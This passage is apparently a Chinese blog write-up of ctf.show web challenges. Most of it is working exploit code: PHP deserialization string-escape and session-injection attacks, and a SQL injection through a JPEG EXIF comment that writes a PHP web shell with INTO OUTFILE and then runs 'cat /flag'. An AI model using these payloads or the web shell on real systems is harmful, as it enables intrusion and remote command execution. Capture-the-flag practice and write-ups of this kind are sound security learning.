echo "inject length: " . strlen($inject) . PHP_EOL;
echo $inject . PHP_EOL;
```

exp

```python
import ssl
import urllib.parse
import urllib.request

target = "https://853acee3-dd0c-42f4-bcc0-8967971cc0ca.challenge.ctf.show/update.php"

inject = '";s:3:"age";O:4:"User":3:{s:2:"id";N;s:3:"age";s:66:"select LOAD_FILE(0x2f7661722f7777772f68746d6c2f666c61672e706870),?";s:8:"nickname";O:4:"Info":3:{s:3:"age";N;s:8:"nickname";N;s:8:"CtrlCase";O:6:"dbCtrl":3:{s:4:"name";s:1:"x";s:8:"password";s:1:"x";s:5:"token";s:5:"admin";}}}s:8:"nickname";s:1:"x";}'

# inject 长度是 303，需要让 safe() 的扩展量刚好也是 303。
# 60 个单引号扩展 300，union 扩展 1，flag 扩展 2。
age = "'" * 60 + "unionflag" + inject
print(age)

data = urllib.parse.urlencode({
    "age": age,
    "nickname": "n",
}).encode()

req = urllib.request.Request(
    target,
    data=data,
    headers={"Content-Type": "application/x-www-form-urlencoded"},
)

with urllib.request.urlopen(req, context=ssl._create_unverified_context(), timeout=15) as resp:
    print(resp.read().decode("utf-8", "replace"))
```

## 一切看起来都那么合情合理 webBasic

inc.php 可以反序列化写文件

```php
<?php
error_reporting(0);
ini_set('display_errors', 0);
ini_set('session.serialize_handler', 'php');
date_default_timezone_set("Asia/Shanghai");
session_start();
use \CTFSHOW\CTFSHOW; 
require_once 'CTFSHOW.php';
$db = new CTFSHOW([
    'database_type' => 'mysql',
    'database_name' => 'web',
    'server' => 'localhost',
    'username' => 'root',
    'password' => 'root',
    'charset' => 'utf8',
    'port' => 3306,
    'prefix' => '',
    'option' => [
        PDO::ATTR_CASE => PDO::CASE_NATURAL
    ]
]);

// sql注入检查
function checkForm($str){
    if(!isset($str)){
        return true;
    }else{
    return preg_match("/select|update|drop|union|and|or|ascii|if|sys|substr|sleep|from|where|0x|hex|bin|char|file|ord|limit|by|\`|\~|\!|\@|\#|\\$|\%|\^|\\|\&|\*|\(|\)|\（|\）|\+|\=|\[|\]|\;|\:|\'|\"|\<|\,|\>|\?/i",$str);
    }
}


class User{
    public $username;
    public $password;
    public $status;
    function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }
    function setStatus($s){
        $this->status=$s;
    }
    function __destruct(){
        file_put_contents("log-".$this->username, "使用".$this->password."登陆".($this->status?"成功":"失败")."----".date_create()->format('Y-m-d H:i:s'));
    }
}

/*生成唯一标志
*标准的UUID格式为：xxxxxxxx-xxxx-xxxx-xxxxxx-xxxxxxxxxx(8-4-4-4-12)
*/

function  uuid()  
{  
    $chars = md5(uniqid(mt_rand(), true));  
    $uuid = substr ( $chars, 0, 8 ) . '-'
            . substr ( $chars, 8, 4 ) . '-' 
            . substr ( $chars, 12, 4 ) . '-'
            . substr ( $chars, 16, 4 ) . '-'
            . substr ( $chars, 20, 12 );  
    return $uuid ;  
}  
```

index.php 会在已有 session 时，把`Cookie: limit`做 base64 解码后写进`$_SESSION['limit']`。

```php
<?php
	error_reporting(0);
	session_start();
	//超过5次禁止登陆
	if(isset($_SESSION['limit'])){
		$_SESSION['limti']>5?die("登陆失败次数超过限制"):$_SESSION['limit']=base64_decode($_COOKIE['limit']);
		$_COOKIE['limit'] = base64_encode(base64_decode($_COOKIE['limit']) +1);
	}else{
		 setcookie("limit",base64_encode('1'));
		 $_SESSION['limit']= 1;
	}
	
?>
```

 session 反序列化直接打

```php
<?php
class User {
    public $username;
    public $password;
    public $status;
}

$shell = 'exp.php';
$code = '<?php include("flag.php");echo $flag;?>';

$u = new User();
$u->username = $shell;
$u->password = $code;
$u->status = true;

$serialized = serialize($u);
$sessionPayload = '|' . $serialized;

echo "serialized = " . $serialized . PHP_EOL;
echo "session payload = " . $sessionPayload . PHP_EOL;
echo "limit cookie = " . base64_encode($sessionPayload) . PHP_EOL;
```

exp

```python
import requests
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

base = "https://ab9515d7-4a13-4e51-9346-6ea52f1c1509.challenge.ctf.show"
domain = "ab9515d7-4a13-4e51-9346-6ea52f1c1509.challenge.ctf.show"
sid = "handlerpwn"

shell = "exp.php"
limit_cookie = "fE86NDoiVXNlciI6Mzp7czo4OiJ1c2VybmFtZSI7czo3OiJleHAucGhwIjtzOjg6InBhc3N3b3JkIjtzOjM5OiI8P3BocCBpbmNsdWRlKCJmbGFnLnBocCIpO2VjaG8gJGZsYWc7Pz4iO3M6Njoic3RhdHVzIjtiOjE7fQ=="

s = requests.Session()
s.verify = False
s.cookies.set("PHPSESSID", sid, domain=domain, path="/")

s.get(base + "/", timeout=5)

s.cookies.set("limit", limit_cookie, domain=domain, path="/")
s.get(base + "/", timeout=5)

s.get(base + "/check.php?u=x&pass=y", timeout=5)

r = requests.get(base + "/log-" + shell, timeout=5, verify=False)
print(r.text)

# python3 exp.py
```


## 你没见过的注入 36D杯

先看 `robots.txt`，直接给了重置密码页面。

```plain
User-agent: *
Disallow: /pwdreset.php
```

先随便传文本，`filelist.php` 会展示服务端识别出来的文件类型。

```html
filename:<a href='upload/59f35de56d64796d86fb8ea5395ca876.zip'>59f35de56d64796d86fb8ea5395ca876.zip</a> filetype:ASCII text
```

用 `exiftool` 给 JPEG 加 `Comment`，其中放一个单引号，上传后直接爆 SQL。

```plain
Error: INSERT INTO file(filename,filepath,filetype) VALUES ('154fa4bae89d0628d1ca1bb9ce4d324c.zip','upload/154fa4bae89d0628d1ca1bb9ce4d324c.zip','JPEG image data, JFIF standard 1.01, aspect ratio, density 72x72, segment length 16, Exif Standard: [TIFF image data, big-endian, direntries=1], comment: "sqli'probe", baseline, precision 8, 14x14, frames 3');
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'probe", baseline, precision 8, 14x14, frames 3')' at line 1
```

这个报错基本把关键逻辑暴露出来了，文件类型字符串没有转义，直接进了 `INSERT`。实际字段名和 SQL 结构如上，整理成可读版就是下面这样。

```php
<?php
$filename = md5($_FILES['file']['name']) . '.zip';
$filepath = 'upload/' . $filename;
move_uploaded_file($_FILES['file']['tmp_name'], $filepath);

$filetype = trim(shell_exec('file -b ' . $filepath));
$sql = "INSERT INTO file(filename,filepath,filetype) VALUES ('$filename','$filepath','$filetype');";

if ($conn->multi_query($sql)) {
    header('Location: filelist.php');
} else {
    echo 'Error: ' . $sql . '<br>' . $conn->error;
}
?>
```

堆叠 SQL 也能执行。把 JPEG 注释改成下面这种形式，`filelist.php` 里会多出 `pwn` 记录。

```sql
ok');insert into file(filename,filepath,filetype) values ('pwn','pwn','pwn');#
```

最后用 `SELECT ... INTO OUTFILE` 写🐎，这里文件名要短一点，避免老版本 `file` 输出截断太长的 EXIF 注释。

```sql
ok');select '<?php system($_GET["cmd"]);?>' into outfile '/var/www/html/s.php';#
```

exp 如下

```python
#!/usr/bin/env python3
import base64
import http.cookiejar
import os
import re
import ssl
import subprocess
import sys
import tempfile
import urllib.parse
import urllib.request
import uuid


BASE_URL = "https://c095636a-a864-4519-b4c9-aad1891cb1f7.challenge.ctf.show"
PASSWORD = "baozongwi"

JPEG_1X1 = b"""
/9j/4AAQSkZJRgABAQAASABIAAD/4QBMRXhpZgAATU0AKgAAAAgAAYdpAAQAAAABAAAAGgAAAAAAA6ABAAMAAAABAAEAAKACAAQAAAABAAAADqADAAQAAAABAAAADgAAAAD/7QA4UGhvdG9zaG9wIDMuMAA4QklNBAQAAAAAAAA4QklNBCUAAAAAABDUHYzZjwCyBOmACZjs+EJ+/8AAEQgADgAOAwEiAAIRAQMRAf/EAB8AAAEFAQEBAQEBAAAAAAAAAAABAgMEBQYHCAkKC//EALUQAAIBAwMCBAMFBQQEAAABfQECAwAEEQUSITFBBhNRYQcicRQygZGhCCNCscEVUtHwJDNicoIJChYXGBkaJSYnKCkqNDU2Nzg5OkNERUZHSElKU1RVVldYWVpjZGVmZ2hpanN0dXZ3eHl6g4SFhoeIiYqSk5SVlpeYmZqio6Slpqeoqaqys7S1tre4ubrCw8TFxsfIycrS09TV1tfY2drh4uPk5ebn6Onq8fLz9PX29/j5+v/EAB8BAAMBAQEBAQEBAQEAAAAAAAABAgMEBQYHCAkKC//EALURAAIBAgQEAwQHBQQEAAECdwABAgMRBAUhMQYSQVEHYXETIjKBCBRCkaGxwQkjM1LwFWJy0QoWJDThJfEXGBkaJicoKSo1Njc4OTpDREVGR0hJSlNUVVZXWFlaY2RlZmdoaWpzdHV2d3h5eoKDhIWGh4iJipKTlJWWl5iZmqKjpKWmp6ipqrKztLW2t7i5usLDxMXGx8jJytLT1NXW19jZ2uLj5OXm5+jp6vLz9PX29/j5+v/bAEMAAgICAgICAwICAwUDAwMFBgUFBQUGCAYGBgYGCAoICAgICAgKCgoKCgoKCgwMDAwMDA4ODg4ODw8PDw8PDw8PD//bAEMBAgICBAQEBwQEBxALCQsQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEP/dAAQAAf/aAAwDAQACEQMRAD8A/fyiiigD/9k=
"""


def request(opener, path, data=None, headers=None):
    url = BASE_URL.rstrip("/") + path
    body = None if data is None else urllib.parse.urlencode(data).encode()
    req = urllib.request.Request(url, data=body, headers=headers or {})
    with opener.open(req, timeout=20) as resp:
        return resp.read().decode("utf-8", "ignore")


def upload(opener, jpg_path):
    boundary = "----ctfshow" + uuid.uuid4().hex
    with open(jpg_path, "rb") as f:
        content = f.read()
    body = b"\r\n".join([
        ("--" + boundary).encode(),
        b'Content-Disposition: form-data; name="file"; filename="payload.jpg"',
        b"Content-Type: image/jpeg",
        b"",
        content,
        ("--" + boundary + "--").encode(),
        b"",
    ])
    req = urllib.request.Request(
        BASE_URL.rstrip("/") + "/upload.php",
        data=body,
        headers={"Content-Type": "multipart/form-data; boundary=" + boundary},
    )
    with opener.open(req, timeout=20) as resp:
        return resp.read().decode("utf-8", "ignore")


def main():
    jar = http.cookiejar.CookieJar()
    opener = urllib.request.build_opener(
        urllib.request.HTTPCookieProcessor(jar),
        urllib.request.HTTPSHandler(context=ssl._create_unverified_context()),
    )

    request(opener, "/reset.php", {"login": "admin", "pwd": PASSWORD})
    login = request(opener, "/checklogin.php", {"login": "admin", "pwd": PASSWORD})
    if "success" not in login:
        raise RuntimeError("login failed: " + login[:120])

    shell_name = "s" + uuid.uuid4().hex[:6] + ".php"
    php = '<?php system($_GET["cmd"]);?>'
    payload = f"ok');select '{php}' into outfile '/var/www/html/{shell_name}';#"

    with tempfile.TemporaryDirectory() as tmp:
        jpg_path = os.path.join(tmp, "payload.jpg")
        with open(jpg_path, "wb") as f:
            f.write(base64.b64decode(JPEG_1X1))
        subprocess.run(
            ["exiftool", "-overwrite_original", "-Comment=" + payload, jpg_path],
            check=True,
            stdout=subprocess.DEVNULL,
            stderr=subprocess.DEVNULL,
        )
        upload(opener, jpg_path)

    flag = request(opener, "/" + shell_name + "?" + urllib.parse.urlencode({"cmd": "cat /flag"}))
    m = re.search(r"ctfshow\{[^}]+\}", flag)
    print(m.group(0) if m else flag.strip())


if __name__ == "__main__":
    try:
        main()
    except FileNotFoundError:
        print("exiftool not found", file=sys.stderr)
        sys.exit(1)
        
        
## python3 exp.py
```


## 小结

到这里就已经把之前做不来的题目几乎都做完了，还看到不少解题榜上出现了我的 Id，回头看了看这些题目其实也并不难，只是需要测试的时间会很长🙌

但是🥸现在有 GPT5.5，我只需要写 prompt，看对话，然后思考最有可能考察的知识点就能在一小时内解决很多问题了🙋‍♂️
